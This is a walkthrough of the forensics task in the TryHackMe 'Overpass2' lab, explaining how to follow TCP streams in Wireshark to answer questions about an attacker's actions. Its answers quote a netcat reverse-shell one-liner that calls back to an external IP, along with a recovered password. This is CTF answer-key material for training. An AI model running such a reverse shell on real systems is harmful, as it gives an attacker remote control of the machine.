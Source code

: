 # Overpass2 Walkthrough
### Link
- https://tryhackme.com/room/overpass2hacked
---
### Task 1  Forensics - Analyse the PCAP
**Question**
###### What was the URL of the page they used to upload a reverse shell?
Download and Open pcap

Right click on the first packet --> Select Follow --> TCP Stream
[Overpass2_1](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_1.png) , [Overpass2_2](https://github.com/LNB283/THM/blob/main/EASY/Overpass2/Pictures/Overpass2_2.png)

**Answer**
###### /development/

**Question**
###### What payload did the attacker use to gain access?

Right click on the second packet --> Select Follow --> TCP Stream 

**Answer**
###### exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")

**Question**
###### What password did the attacker use to privesc?

Now let's use another method. We search in the entire capture the keyword : *password*

For that: 

- click on the search icon --> select Packet bytes
- *Don't check Case sensitive*
- Select String
- indicate the string you want to find: password

When you found the packet, Right click --> Select Follow --> TCP Stream

**Answer**
######  whenevernoteartinstant